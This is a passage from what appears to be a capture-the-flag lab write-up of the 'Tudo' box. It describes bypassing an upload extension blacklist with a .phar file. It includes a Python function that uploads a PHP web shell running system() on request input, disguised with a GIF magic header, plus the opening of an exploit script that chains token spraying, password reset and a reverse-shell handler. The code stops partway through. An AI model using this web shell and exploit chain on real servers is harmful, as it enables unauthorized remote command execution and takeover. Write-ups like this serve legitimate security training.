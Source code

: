 ![](https://raw.githubusercontent.com/six2dez/pentest-book/master/.gitbook/assets/image%20(46).png)

We found that a extension which is not being blacklisted is the `.phar`, so, if we upload a phar file, it's going to be uploaded by the server

And we will use a function that I already used in other HackTheBox boxes

With magic number hex changed to jpeg.

```py
import os
import requests

# Upload Malicious with magic hex changed
def maliciousUpload(rhost):
    url = "http://%s/admin/upload_image.php" %rhost
    data = 'GIF98a;<?php system($_REQUEST[\"cmd\"]); ?>'
    multipart_data = {
        'title' : (None," "),
        'image': ('0x4rt3mis.phar', data, "image/gif")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)

maliciousUpload(rhost)
```

We just upgrade our script, here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:09:38.png)

file_upload_reverse.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Token Spray - Change password for an user - Get Admin Token - Get Reverse Shell from File Upload
# bmdyy - Tudo

import argparse
import requests
import sys
import datetime
import time
import requests
import os
import subprocess
import socket
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler
import socket, telnetlib
from threading import Thread
import base64
import urllib.parse
  
'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```